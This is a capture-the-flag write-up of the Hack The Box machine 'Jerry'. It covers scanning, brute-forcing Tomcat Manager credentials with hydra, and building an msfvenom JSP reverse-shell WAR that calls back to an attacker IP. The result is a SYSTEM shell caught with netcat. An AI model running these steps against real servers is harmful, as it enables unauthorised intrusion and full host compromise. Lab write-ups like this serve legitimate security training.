 ```yaml
---
layout: post
title: Jerry
date: 2024-12-24 04:01 +0000
categories: [Write Ups, Boxes]
tags: [red team pathway, difficulty:easy]     # TAG names should always be lowercase
---
```

# Overview: 
Jerry is a very easy box that involves finding an Apache Tomcat server and exploiting **Tomcat Web Application Manager** with weak credentials.
We then upload a malicous `.WAR` file to gain a system reverse shell and access to `user` and `root` flags. 
# **Reconnaissance**:
### Nmap:
We will get started as always with an `nmap` scan. 
```bash
sudo nmap -sC -sV -oA ~/htb/boxes/Jerry/nmap 10.10.10.95
...SNIP...
Nmap scan report for 10.10.10.95
Host is up (0.095s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

...SNIP...

```
Running `nmap` we see just one port open on `8080`. This port is running an `Apache Tomcat` webserver version:`7.0.88`.

## Web Enumeration:

Navigating over to `10.10.10.95:8080` we get what appears to be a default webpage.

![image.png](assets/img/Jerry/image.png)
_Default install of tomcat_

Poking around on the app, we see that `Server Status`, `Manager App`, `Host Manager` require a `username:password`

![image.png](assets/img/Jerry/image_1.png)

Testing the default credentials of `admin:admin` we gain access to the `Server Status` page. Looking around, there doesn’t seem to be any vector to exploit. 

![image.png](assets/img/Jerry/image_2.png)

Googling around for other default credentials doesn’t seem to net much, but if we observe the `403 - Access Denied` page when attempting to access `Manager App`, we get the following:

![image.png](assets/img/Jerry/image_4.png)
_Suggestion of the `manager` role with the username : password pair of `tomcat:s3cret`_

Trying these credentials, we get access to the *Tomcat Web Application Manager page.* 

![image.png](assets/img/Jerry/image_5.png)

> In most cases (_we hope_) credentials will not be so easily accessible. To circumvent this, we may need to brute-force the password. 
{: .prompt-tip }

### Bruteforcing:

#### Burpsuite:
We notice capturing the request to `http://10.10.10.95:8080/manager/html` that we have the `Authorization` header, which is a `Base64 encoded` value of the `username:password` that is entered. In this case, we don’t get access with value of `admin:admin`.

![image.png](assets/img/Jerry/image_3.png)

Using this knowledge of the request, we are now informed as to where to direct out brute-forcing attempt. 

#### Hydra:

Using hydra, we find the password `tomcat:s3cret`.

```bash
hydra -C /usr/share/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
#-C FILE   colon separated "login:pass" format

...SNIP...
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret

```


# **Exploitation:**

## Web Exploitation:

In the **Tomcat Web Application Manager,** we see that we can upload and WAR files.

![image.png](assets/img/Jerry/image_6.png)

> A WAR (Web Application Archive) file allows developers to package all the components of a Java-based web application, including code, configuration, and static resources, for deployment on a web server or application server.
{: .prompt-info }


### Creating malicious WAR file:
We use will `msfvenom` to craft an exploit:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.29 LPORT=8888 -f war -o upload.war
```
> #### Switches:
- `p java/jsp_shell_reverse_tcp`: Specifies the payload (a reverse shell using Java Server Pages).
- `LHOST=`: Your machine's IP address (for the reverse shell to connect back).
- `LPORT=`: The port on your machine to receive the reverse shell.
- `f war`: Specifies the output format as a WAR file.
- `upload.war`: Output file name.
{: .prompt-info }

### Getting shell:
Navigating to `http://10.10.10.95:8080/upload/`
![image.png](assets/img/Jerry/image_7.png)
_Upload displayed on GUI_


```shell
nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.95] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```
### Flags:
We have shell as system, so `user` and `root` flags are easy to get:
```bash
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:09 AM    <DIR>          flags
               0 File(s)              0 bytes
               3 Dir(s)  27,450,302,464 bytes free

C:\Users\Administrator\Desktop>cd flags
cd flags

C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,450,171,392 bytes free

C:\Users\Administrator\Desktop\flags>type 2*
type 2*
2 for the price of 1.txt

user.txt
7004dbce...SNIP...

root.txt
04a8b36e...SNIP...

```
